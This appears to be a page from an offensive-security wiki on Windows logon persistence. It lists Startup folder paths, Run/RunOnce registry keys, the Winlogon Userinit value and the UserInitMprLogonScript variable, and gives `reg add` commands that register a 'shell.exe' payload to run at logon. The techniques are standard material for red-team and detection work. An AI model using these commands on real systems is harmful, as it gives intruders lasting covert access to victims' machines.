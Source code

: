 # Logon Triggered Persistence 

## Theory
It's sometime usefull to know how to plant payloads that will get executed when a user logs into the system ! 

## Practice

{% tabs %}

{% tab title="Startup Folders" %}
We can put executable in each user's folder:  
- `C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`  
  
If we want to force all users to run a payload while logging in, we can use the folder under:  
- `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`  
{% endtab %}

{% tab title="Registry" %}
You can also force a user to execute a program on logon via the registry. You can use the following registry entries to specify applications to run at logon:
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`  
- `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`  
- `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`  
- `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`  
  
For example:
```bash
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v PeMalware /t REG_SZ /d "C:\Users\user1\shell.exe"
```


{% hint style="success" %}
Registry entries under `HKCU` will only apply to the current user.  
Registry entries under `HKLM` will apply to everyone.
{% endhint %}
{% endtab %}

{% tab title="WinLogon" %}
Winlogon, the Windows component that loads your user profile right after authentication can be abuse for persistence  
We can edit the `Shell` & `Userinit` keys:  

{% hint style="danger" %}
If we'd replace any of the executables with some reverse shell, we would break the logon sequence, which isn't desired. Interestingly, you can append commands separated by a comma, and Winlogon will process them all.
{% endhint %}
  
```bash
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "C:\Windows\System32\Userinit.exe, C:\Windows\shell.exe" /f
```
{% endtab %}

{% tab title="Logon Scripts" %}
One of the things userinit.exe does while loading your user profile is to check for an environment variable called `UserInitMprLogonScript`. We can use this environment variable to assign a logon script to a user that will get run when logging into the machine.  

```bash
reg add "HKCU\Environment" /v UserInitMprLogonScript /d "C:\Windows\shell.exe" /f
```

{% endtab %}


{% endtabs %}
